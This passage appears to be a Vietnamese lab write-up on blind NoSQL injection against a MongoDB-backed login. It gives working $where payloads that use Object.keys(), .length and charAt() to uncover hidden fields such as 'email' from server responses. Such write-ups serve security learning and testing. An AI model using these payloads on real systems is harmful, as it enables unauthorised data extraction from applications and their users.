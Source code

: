 - Thử return 0 xem:

![alt text](./img/lab4-3.png)

==>Ok ta có thể chèn ```$where``` vào mà không cần lo lắng gì

- Giờ ta cần xác định xem ở json còn field nào bị ẩn đi mà ta chưa biết hay không bằng cách sử dụng ```Object.keys()```:

```"$where":"function(){ if(Object.keys(this)[1].match('username')) return 1; else 0; }"```

![alt text](./img/lab4-4.png)

Hàm ```keys()``` có chức năng duyệt tất cả các field có trong website, ta sẽ sử dụng thêm .match() để kiếm tra các giá trị của nó

![alt text](./img/lab4-5.png)

-Các giá trị của token lần lượt là ```_id```, ```username```, ```password```.

-Thử với [3] [4] ta vẫn thấy server 200 OK, nhưng khi tới [5] thì bị ```internal error```

==>Vậy là có 2 trường bị ẩn.

-Giờ tìm tên của các field bị ẩn với payload:

```"$where":"function(){ if(Object.keys(this)[3].length == 1) return 1; else 0; }"```

+Thay 1 bằng các giá trị khác rồi tìm xem gói tin nào trả về ```Account locked``` là êm

![alt text](./img/lab4-6.png)

==>Field thứ 3 có length là 5.

![alt text](./img/lab4-7.png)

==>Field thứ 4 có length là 10.

-Giờ đi tìm các giá trị có trong field đó bằng payload:

```"$where":"function(){ if(Object.keys(this)[3].charAt(0) == 'a') return 1; else 0; }"```

![alt text](./img/lab4-8.png)

==>```Object.keys(this)[3]``` là ```email```
```
